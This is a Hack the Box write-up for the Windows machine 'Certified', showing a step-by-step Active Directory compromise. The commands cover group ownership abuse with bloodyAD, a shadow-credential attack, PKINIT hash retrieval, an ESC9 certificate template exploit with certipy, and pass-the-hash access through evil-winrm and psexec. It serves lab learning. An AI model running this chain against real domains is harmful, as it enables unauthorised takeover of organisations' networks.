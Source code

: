 # Certified

**Platform: Hack the Box**

**OS: Windows**

**Diffculty: Medium**


## Key Learnings

- Familiarize myself with enumerating AD networks using Bloodhound
- Abuse GenericAll and ForceChangePassword privileges to change user passwords using *net rpc*
- Exploit GenericWrite privileges by running a targeted kerberoasting attack on vulnerable account
- Abuse DCSync privs to dump SAM and LSA hashes and compromise the Domain Controller by passing the hash
- Use Hashcat to crack .psafe3 file


## **Disclaimer: Potential spoilers below**


## Walkthrough

1. Run nmap scan
![image](https://github.com/user-attachments/assets/3d450477-a74d-497b-b96d-dacf1a0f743d)

2. judith.mader has WriteOwner permissions on management group which has GenericWrite privs on management_svc account
![image](https://github.com/user-attachments/assets/9f75d80d-89af-40a5-9972-eb0ff164c551)

3. change owner of management group to judith

	```python3 bloodyAD.py --host 10.129.231.186 -d certified.htb -u judith.mader -p judith09 set owner "Management" judith.mader```

4. then give GenericAll privs to judith
	
	```python3 bloodyAD.py --host 10.129.231.186 -d certified.htb -u judith.mader -p judith09 add genericAll Management judith.mader```

5. then add judith to the management group
	
	```python3 bloodyAD.py --host 10.129.231.186 -d certified.htb -u judith.mader -p judith09 add groupMember Management judith.mader```
![image](https://github.com/user-attachments/assets/83e0b353-2b33-456e-be7e-4c4f9fd180cf)

6. now can run shadow credential attack on management_svc

	```python3 pywhisker.py -d certified.htb -u judith.mader -p judith09 -t management_svc -a add --dc-ip 10.129.130.180```
![image](https://github.com/user-attachments/assets/445020c8-2150-461e-ba74-1bd4d5fdaf5b)

7. use PKINIT tools to get TGT for management_svc. Got a clock skew error so fix clock skew and then run again
	
	```python3 gettgtpkinit.py -cert-pfx PFX_FILE -pfx-pass PFX_PASS certified.htb/management_svc -dc-ip 10.129.130.180 ccache```
![image](https://github.com/user-attachments/assets/0931b573-328f-4fd0-a0c3-2e4d937da20c)

8. Export ccache to KRB5CCNAME env var and use AS-REP encryption key from getting TGT to get NT hash of management_svc account using PKINIT tools getnthash.py

	```python3 getnthash.py -key AS_REP_KEY -dc-ip 10.129.130.180 certified.htb/management_svc```

![image](https://github.com/user-attachments/assets/98efc969-2c11-4b5c-8890-777a40922f7d)

9. Can evil-winrm into machine using management_svc hash

	```evil-winrm -i 10.129.130.180 -u management_svc -H a091c1832bcdd4677c28b5a6a1295584```

![image](https://github.com/user-attachments/assets/55e2e59e-2f73-4870-a387-3dfd2e37a651)

10. Bloodhound shows management_svc has GenericAll privs on user ca_operator. Change ca_operator password
	```python3 /opt/bloodyAD/bloodyAD.py --dc-ip 10.129.131.108 -d certified.htb -u management_svc -p :a091c1832bcdd4677c28b5a6a1295584 set password ca_operator P@ssw0rd```
Success!

![image](https://github.com/user-attachments/assets/23415309-3f97-4fd2-9e6e-31b3feae8432)

11. Get list of certificate templates
	```certipy find -u ca_operator -p P@ssw0rd -dc-ip 10.129.131.108 -enabled```

![image](https://github.com/user-attachments/assets/2a9d2c0d-966e-4345-be32-68f88bfe1f85)

12. CertifiedAuthentication template has ESC9 vulnerability. To exploit ESC9 templates, set the upn of ca_operator to Administrator
	```certipy account update -username management_svc -hashes :[NT_HASH] -upn Administrator -dc-ip [IP] -user ca_operator```

![image](https://github.com/user-attachments/assets/a41bf04c-24bb-4163-9ed7-a19f9d89980a)

13. Request certificate with changed upn
	```certipy req -u ca_operator@certified.htb -p P@ssw0rd -ca certified-DC01-CA -template CertifiedAuthentication -dc-ip [IP]```

![image](https://github.com/user-attachments/assets/ca644a51-0514-427b-9fcc-d164ff246b38)

14. Change back ca_operator upn to original
	```certipy account update -username management_svc -hashes :[NT_HASH] -upn ca_operator -dc-ip [IP] -user ca_operator```

![image](https://github.com/user-attachments/assets/92e33eb1-c3ca-47be-b0dd-7a2146995aa2)

15. Authenticate with admin certificate and get NT hash of Administrator
	```certipy auth -pfx administrator.pfx -domain certified.htb -dc-ip [IP]```

![image](https://github.com/user-attachments/assets/b1df9eeb-8584-433b-ad17-253920ba04ff)

16. Check administrator hash is correct using pass the hash
	```crackmapexec smb [IP] -u Administrator -H [HASH]```

![image](https://github.com/user-attachments/assets/34eab86c-32f0-413b-8bf5-d00b62a6feea)

17. Pwned! Psexec into machine and get root flag!
	```psexec.py Administrator@[IP] -hashes [HASH]```

![image](https://github.com/user-attachments/assets/c4549cc0-4fe6-427a-a6a7-cc077521e35d)









 
